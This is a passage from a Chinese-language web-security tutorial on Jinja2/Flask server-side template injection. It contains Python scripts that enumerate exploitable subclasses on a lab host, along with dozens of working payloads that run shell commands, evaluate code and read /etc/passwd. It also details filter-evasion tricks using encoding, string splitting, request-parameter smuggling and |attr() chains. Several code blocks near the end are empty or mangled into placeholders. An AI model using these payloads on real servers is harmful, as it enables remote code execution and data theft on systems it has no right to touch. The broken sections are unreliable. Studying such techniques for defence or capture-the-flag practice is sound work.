

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 os._wrap_close，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。

寻找 popen 函数执行命令

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'popen' in res.text:
        print(i)

# 得到编号为137
```

直接构造payload即可：

```plain
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('whoami').read()}}
```



这样得到的索引还是很准确的。

除了这种方法外，我们还可以直接导入os模块，python有一个importlib类，可用load_module来导入你需要的模块。

寻找 importlib 类执行命令

Python 中存在`&lt;class '_frozen_importlib.BuiltinImporter'>`类，目的就是提供 Python 中 import 语句的实现（以及 `__import__`函数）。我么可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

首先编写脚本遍历目标Python环境中 importlib 类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if '_frozen_importlib.BuiltinImporter' in res.text:
        print(i)

# 得到编号为104
```

构造如下payload即可执行命令：

```plain
{{[].__class__.__base__.__subclasses__()[104]["load_module"]("os")["popen"]("whoami").read()}}
```



寻找 linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到一堆子类的索引:
277
278
322
325
326
327
```

随便挑一个子类构造payload即可：

```plain
{{[].__class__.__base__.__subclasses__()[191].__init__.__globals__['linecache']['os'].popen('whoami').read()}}

{{[].__class__.__base__.__subclasses__()[191].__init__.__globals__.linecache.os.popen('whoami').read()}}
```



寻找 subprocess.Popen 类执行命令

从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。

### 5.2 jinja2 Bypass姿势

#### 5.2.1 关键字绕过

利用字符串拼接绕过

我们可以利用“+”进行字符串拼接，绕过关键字过滤，例如上述读取文件的 Payload，我们可以进行如下修改：

```plain
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/pa"+"sswd")}}
```



```plain
{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

只要返回的是字典类型的或是字符串格式的，即payload中引号内的，在调用的时候都可以使用字符串拼接绕过。

#### 5.2.2 利用编码绕过

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用base64编码绕过（是否能用取决于这个网站是否引入base64模块）：

```plain
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

等同于：

```plain
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13、16进制编码等。

#### 5.2.3 利用Unicode编码绕过关键字（flask适用）

我们可以利用unicode编码的方法，绕过关键字过滤，例如：

```plain
{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```

等同于：

```plain
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 5.2.4 利用Hex编码绕过关键字

和上面那个一样，只不过将Unicode编码换成了Hex编码，适用于过滤了“u”的情况。

我们可以利用hex编码的方法，绕过关键字过滤，例如：

```plain
{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

等同于：

```plain
{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 5.2.5 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了flag，那么我们可以用 fl""ag 或 fl''ag 的形式来绕过：

```plain
{{[].__class__.__base__.__subclasses__()[79].get_data(0,"/etc/pass""wd")}}
```

再如：

```plain
{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['o''s'].popen('ls').read()}}

{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用引号绕过。

#### 5.2.6 利用join()函数绕过

我们可以利用join()函数来绕过关键字过滤。例如，题目过滤了passwd，那么我们可以用如下方法绕过：

```plain
?name={{[].__class__.__base__.__subclasses__()[79]["get_data"](0, "/etc/passw".join("/d"))}}
```

#### 5.2.7 绕过其他字符

##### 5.2.7.1 过滤了中括号[ ]

**利用**`**__getitem__()**`**绕过**

可以使用`__getitem__()`方法输出序列属性中的某个索引处的元素，如：

```plain
"".__class__.__mro__[1]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')
```

如下示例：

```plain
{{''.__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(79).__dict__.__getitem__("get_data")(0,"/etc/passwd")}}    // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(64).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

**利用 pop() 绕过**

pop()方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：

```plain
{{''.__class__.__mro__.__getitem__(1).__subclasses__().pop(79).__dict__.__getitem__("get_data")(0,"/etc/passwd")}}        // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(79).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

注意：最好不要用pop()，因为pop()会删除相应位置的值。

**利用字典读取绕过**

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 [] 里来访问，一种就是用点 . 来访问。所以，当方括号 [] 被过滤之后，我们还可以用点 . 的方式来访问，如下示例

```plain
// __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(64).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```plain
// [__builtins__]['eval']()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

##### 5.2.7.2 过滤了引号

**利用chr()绕过**

先获取chr()函数，赋值给chr，后面再拼接成一个字符串

```plain
{{().__class__.__bases__[0].__subclasses__().pop(79)['get_data'](0,a)}}

# {% set a = chr(47)%2Bchr(101)%2Bchr(116)%2Bchr(99)%2Bchr(47)%2Bchr(112)%2Bchr(97)%2Bchr(115)%2Bchr(115)%2Bchr(119)%2Bchr(100) %}{{().__class__.__bases__[0].__subclasses__().pop(79)['get_data'](0,a)}}
```

等同于

```plain
{{().__class__.__bases__[0].__subclasses__().pop(79)['get_data'](0,a)}}
```

**利用request对象绕过**

示例：

```plain
{{''.__class__.__mro__.__getitem__(1).__subclasses__().pop(79).__dict__.get_data(0,request.args.path)}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[400].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

等同于：

```plain
{{''.__class__.__mro__.__getitem__(1).__subclasses__().pop(79).__dict__['get_data'](0,'/etc/passwd')}}

{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了args，可以将其中的request.args改为request.values，POST和GET两种方法传递的数据request.values都可以接收。

##### 5.2.7.3 过滤了下划线__

**利用request对象绕过**

```plain
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[79][request.args.getdata](0,'/etc/passwd')}}&class=__class__&bases=__bases__&subclasses=__subclasses__&getdata=get_data

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[400][request.args.init][request.args.glo]['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__&init=__init__&glo=__globals__
```

等同于：

```plain
{{().__class__.__bases__[0].__subclasses__().pop(79).get_data(0,'/etc/passwd')}}

{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls /').read()}}
```

##### 5.2.7.4 过滤了点 .

**利用 |attr() 绕过（适用于flask）**

如果 . 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数attr()，即：

```plain
().__class__   =>  ()|attr("__class__")
```

示例：

```plain
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(400)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```plain
{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls /').read()}}
```

**利用中括号[ ]绕过**

如下示例：

```plain
{{''['__class__']['__bases__'][0]['__subclasses__']()[64]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```plain
{{().__class__.__bases__.[0].__subclasses__().[64].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

这样的话，那么 __class__、__bases__ 等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。

##### 5.2.7.5 过滤了大括号 {{{{

我们可以用Jinja2的 { 语句装载一个循环控制语句来绕过：

```plain
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
```

也可以使用 {1{ 配合 os.popen 和 curl 将执行结果外带（不外带的话无回显）出来：

```plain
1

# 开启 nc 监听   nc -lvp 2333
```

也可以用 { 的形式来代替 {{{{ ，如下：

```plain


# 开启 nc 监听   nc -lvp 2333
```

**利用 |attr() 来Bypass**

这里说一个新东西，就是原生JinJa2函数 attr()，这是一个 attr() 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ | ）分割。如：

```plain
foo|attr("bar")   等同于   foo["bar"]
```

|attr() 配合其他姿势可同时绕过双下划线 __ 、引号、点 . 和 [ 等，下面给出示例。

##### 5.2.7.6 同时过滤了 . 和 []

过滤了以下字符：

```plain
.    [
```

绕过姿势：

```plain
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(400)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：

```plain
{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls').read()}}
```

##### 5.2.7.7 同时过滤了 __ 、点. 和 []

过滤了以下字符：

```plain
__    .    [    "
```

下面我们演示绕过姿势，先写出payload的原型：

```plain
{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

由于中括号 [ 被过滤了，我们可以用 __getitem__() 来绕过（尽量不要用pop()），类似如下：

```plain
{{().__class__.__base__.__subclasses__().__getitem__(400).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
```

由于还过滤了下划线 __，我们可以用request对象绕过，但是还过滤了中括号 []，所以我们要同时绕过 __ 和 [，就用到了我们的|attr()

所以最终的payload如下：

```plain
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(400)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

##### 5.2.7.8 用Unicode编码配合 |attr() 进行Bypass

过滤了以下字符：

```plain
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用 {绕过对 {{{{ 的过滤，并用unicode绕过对关键字的过滤。unicode绕过是一种网上没提出的方法。

假设我们要构造的payload原型为：

```plain
{{().__class__.__base__.__subclasses__()[400].__init__.__globals__['os'].popen('ls').read()}}
```

先用 |attr 绕过 . 和 []：

```plain
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(400)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

我们可以将过滤掉的字符用unicode替换掉：

```plain
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(400)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

##### 5.2.7.9 用Hex编码配合 |attr() 进行Bypass

和上面那个一样，只不过是将Unicode编码换成了Hex编码，适用于“u”被过滤了的情况。

我们可以将过滤掉的字符用Hex编码替换掉：

```plain
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(400)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")|attr("read")()}}
```

#### 5.2.8 使用 JinJa 的过滤器进行Bypass

在 Flask JinJa 中，内只有很多过滤器可以使用，前文的attr()就是其中的一个过滤器。变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号（|）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

详情请看官方文档：https://jinja.palletsprojects.com/en/master/templates/#builtin-filters

以下是内置的所有的过滤器列表：

| [abs()](https://jinja.palletsprojects.com/en/master/templates/#abs) | [float()](https://jinja.palletsprojects.com/en/master/templates/#float) | [lower()](https://jinja.palletsprojects.com/en/master/templates/#lower) | [round()](https://jinja.palletsprojects.com/en/master/templates/#round) | [tojson()](https://jinja.palletsprojects.com/en/master/templates/#tojson) |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| [attr()](https://jinja.palletsprojects.com/en/master/templates/#attr) | [forceescape()](https://jinja.palletsprojects.com/en/master/templates/#forceescape) | [map()](https://jinja.palletsprojects.com/en/master/templates/#map) | [safe()](https://jinja.palletsprojects.com/en/master/templates/#safe) | [trim()](https://jinja.palletsprojects.com/en/master/templates/#trim) |
| [batch()](https://jinja.palletsprojects.com/en/master/templates/#batch) | [format()](https://jinja.palletsprojects.com/en/master/templates/#format) | [max()](https://jinja.palletsprojects.com/en/master/templates/#max) | [select()](https://jinja.palletsprojects.com/en/master/templates/#select) | [truncate()](https://jinja.palletsprojects.com/en/master/templates/#truncate) |
| [capitalize()](https://jinja.palletsprojects.com/en/master/templates/#capitalize) | [groupby()](https://jinja.palletsprojects.com/en/master/templates/#groupby) | [min()](https://jinja.palletsprojects.com/en/master/templates/#min) | [selectattr()](https://jinja.palletsprojects.com/en/master/templates/#selectattr) | [unique()](https://jinja.palletsprojects.com/en/master/templates/#unique) |
| [center()](https://jinja.palletsprojects.com/en/master/templates/#center) | [indent()](https://jinja.palletsprojects.com/en/master/templates/#indent) | [pprint()](https://jinja.palletsprojects.com/en/master/templates/#pprint) | [slice()](https://jinja.palletsprojects.com/en/master/templates/#slice) | [upper()](https://jinja.palletsprojects.com/en/master/templates/#upper) |
| [default()](https://jinja.palletsprojects.com/en/master/templates/#default) | [int()](https://jinja.palletsprojects.com/en/master/templates/#int) | [random()](https://jinja.palletsprojects.com/en/master/templates/#random) | [sort()](https://jinja.palletsprojects.com/en/master/templates/#sort) | [urlencode()](https://jinja.palletsprojects.com/en/master/templates/#urlencode) |
| [dictsort()](https://jinja.palletsprojects.com/en/master/templates/#dictsort) | [join()](https://jinja.palletsprojects.com/en/master/templates/#join) | [reject()](https://jinja.palletsprojects.com/en/master/templates/#reject) | [string()](https://jinja.palletsprojects.com/en/master/templates/#string) | [urlize()](https://jinja.palletsprojects.com/en/master/templates/#urlize) |
| [escape()](https://jinja.palletsprojects.com/en/master/templates/#escape) | [last()](https://jinja.palletsprojects.com/en/master/templates/#last) | [rejectattr()](https://jinja.palletsprojects.com/en/master/templates/#rejectattr) | [striptags()](https://jinja.palletsprojects.com/en/master/templates/#striptags) | [wordcount()](https://jinja.palletsprojects.com/en/master/templates/#wordcount) |
| [filesizeformat()](https://jinja.palletsprojects.com/en/master/templates/#filesizeformat) | [length()](https://jinja.palletsprojects.com/en/master/templates/#length) | [replace()](https://jinja.palletsprojects.com/en/master/templates/#replace) | [sum()](https://jinja.palletsprojects.com/en/master/templates/#sum) | [wordwrap()](https://jinja.palletsprojects.com/en/master/templates/#wordwrap) |
| [first()](https://jinja.palletsprojects.com/en/master/templates/#first) | [list()](https://jinja.palletsprojects.com/en/master/templates/#list) | [reverse()](https://jinja.palletsprojects.com/en/master/templates/#reverse) | [title()](https://jinja.palletsprojects.com/en/master/templates/#title) | [xmlattr()](https://jinja.palletsprojects.com/en/master/templates/#xmlattr) |

可以自行点击每个过滤器去查看每一种过滤器的作用。我们就是利用这些过滤器，一步步的拼接出我们想要的字符、数字或字符串。

**常用字符获取入口点**

- 对于获取一般字符的方法有以下几种：

```plain
{{org}}
{{org}}
{{org}}
{{org}}
```

如下演示：

```plain
{{org}}
```

